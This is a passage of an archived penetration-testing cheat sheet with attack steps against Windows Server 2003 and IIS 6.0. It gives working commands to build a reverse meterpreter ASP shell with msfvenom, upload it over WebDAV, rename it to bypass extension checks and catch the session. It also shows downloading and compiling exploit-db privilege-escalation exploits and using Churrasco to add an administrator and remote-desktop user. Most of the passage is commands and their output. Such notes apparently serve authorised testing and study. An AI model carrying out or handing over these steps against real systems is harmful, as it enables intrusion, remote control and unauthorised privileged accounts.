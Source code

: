          echo REPORT COMPLETE!

*   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting [http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html](http://web.archive.org/web/20171113221652/http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html)

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt

         [*] Started reverse TCP handler on 1.2.3.4:443 
         [*] Starting the payload handler...
         [*] Sending stage (957487 bytes) to 1.2.3.5
         [*] Meterpreter session 1 opened (1.2.3.4:443 -> 1.2.3.5:1063) at 2017-09-25 13:10:55 -0700

*   Windows privledge escalation exploits are often written in Python. So, it is necessary to compile the using pyinstaller.py into an executable and upload them to the remote server.

         pip install pyinstaller
         wget -O exploit.py http://www.exploit-db.com/download/31853  
         python pyinstaller.py --onefile exploit.py

*   Windows Server 2003 and IIS 6.0 privledge escalation using impersonation:

    [https://www.exploit-db.com/exploits/6705/](http://web.archive.org/web/20171113221652/https://www.exploit-db.com/exploits/6705/)

    [https://github.com/Re4son/Churrasco](http://web.archive.org/web/20171113221652/https://github.com/Re4son/Churrasco)

         c:\Inetpub>churrasco
         churrasco
         /churrasco/-->Usage: Churrasco.exe [-d] "command to run"

         c:\Inetpub>churrasco -d "net user /add <username> <password>"
         c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
         c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

*   Windows MS11-080 - [http://www.exploit-db.com/exploits/18176/](http://web.archive.org/web/20171113221652/http://www.exploit-db.com/exploits/18176/)

          python pyinstaller.py --onefile ms11-080.py  
          mx11-080.exe -O XP
